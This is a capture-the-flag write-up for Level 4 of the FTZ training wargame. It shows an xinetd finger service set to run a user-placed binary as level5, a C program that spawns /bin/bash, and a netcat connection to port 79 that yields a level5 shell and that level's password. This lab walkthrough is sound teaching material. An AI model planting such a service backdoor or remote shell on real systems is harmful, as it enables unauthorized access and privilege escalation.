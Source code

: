 # Level4

## This level's goal

- xinetd
- Remote backdoor

***
```
[level4@ftz level4]$ cat hint

누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

```
[level4@ftz tmp]$ ls -al /etc/xinetd.d | grep level4
-r--r--r--    1 root     level4        171 Aug 19  2014 backdoor
```

```
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
```

```
[level4@ftz level4]$ cat /etc/services | grep finger
finger          79/tcp
finger          79/udp
cfinger         2003/tcp                        # GNU Finger
```

```
[level4@ftz level4]$ netstat -an | grep :79
tcp        0      0 0.0.0.0:79              0.0.0.0:*               LISTEN
```

```
[level4@ftz level4]$ ls -l /home/level4/tmp/backdoor
ls: /home/level4/tmp/backdoor: No such file or directory
```

```
[level4@ftz tmp]$ cat backdoor.c
#include <stdlib.h>

int main()
{
        system("/bin/bash");
        return 0;
}
[level4@ftz tmp]$ gcc -o backdoor backdoor.c
[level4@ftz tmp]$ chmod 777 backdoor
```

```
[level4@ftz tmp]$ finger level4@localhost
/bin/bash: line 1: level4
: command not found
id
my-pass
```

This is not working, cuz this level's concept is remote backdoor.

so you need to use nc(netcat) command in remote

```
┌──(root💀kali)-[~]
└─# nc 192.168.10.240 79
id
uid=3005(level5) gid=3005(level5)
my-pass
Level5 Password is "what is your name?".
```
